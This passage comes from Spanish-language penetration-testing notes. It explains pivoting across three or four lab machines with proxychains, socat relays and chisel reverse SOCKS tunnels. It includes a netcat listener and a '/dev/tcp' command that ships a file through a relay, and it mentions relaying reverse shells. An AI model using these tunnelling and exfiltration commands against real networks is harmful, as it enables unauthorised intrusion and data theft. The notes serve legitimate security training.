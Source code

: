 De manera que se podrá conectar mediante ssh, entre otras cosas. 
#### Máquina 1:
`proxychains ssh root@10.10.0.129`

Por otro lado, si lo que necesitamos es un "traspaso" de archivos, envíos de reverse shells, etc. Necesitaremos hacer uso de **socat**, donde una vez más la máquina intermediaria se tendra que ocupar de redirigir todo el tráfico de red entrante por un puerto a una determinada dirección. 

#### Máquina 1: 
`nc -nlvp 443 > binary.txt`
#### Máquina 2: 
 `socat TCP-LISTEN:5566,fork TCP:192.168.1.38:443`
#### Máquina 3: 
`cat < binary.txt > /dev/tcp/10.10.0.128/5566`

De esta manera la máquina 2 se encarga de recibir conexiones por el puerto 5566 y redirigirlo a la IP de la máquina 1 por el puerto 443 donde la máquina 1 se encuentra escuchando. 

-----

# Múltiples conexiones y máquinas

Ahora, tenemos casos en donde no es un entorno "chico" donde solamente hay 3 máquinas, podría haber 4, 5, 6, etc. En estos casos sigue siendo lo mismo pero con algunos detalles a tener en cuenta. 

Para hacer uso de **chisel** será lo mismo, supongamos que tenemos 4 máquinas. 

![[pivoting_4_machines.png]]

Si quisieramos desde la Máquina 1 tener conexión con la máquina 4, deberíamos empezar a jugar con proxy de tipo **dynamic_chain** en lugar de **strict_chain**, de manera que esto se configura una vez más en el archivo de configuración **/etc/proxychains4.conf**. 
Es importante tener en cuenta que al final de este archivo de confoguración se indicaran los múltiples tuneles **socks5** de manera que primero estaran los últimos y por último el primero. 

El **dinamyc_chain** ofrece el mismo funcionamiento que strict. Por lo tanto también seguirá exactamente la lista de proxy que estipulo pero, a diferencia de strict, en el caso que uno de los proxy de la lista falle pasará al siguiente y de este modo podremos establecer la conexión sin problemas.

No solo esto, si no que para poder llegar a la Máquina 4, tiene que haber un nuevo "cliente" de chisel corriendo en la máquina 3, pero como la máquina 3 no tiene directamente conectividad con la Máquina 1, habrá que jugar con socat para redirigir la conexión de chisel a nuestro servidor en la Máquina 1. 

#### Máquina 1: 
`chisel server --reverse -p 1234`

#### Máquina 2: 
`chisel client {IP_Máquina1}:1234 R:1080:socks` 
`socat TCP-LISTEN:1234,fork TCP:{IP_Máquina1}:1234`

#### Máquina 3:
`chisel client {IP_Máquina2}:1234 R:1081:socks`
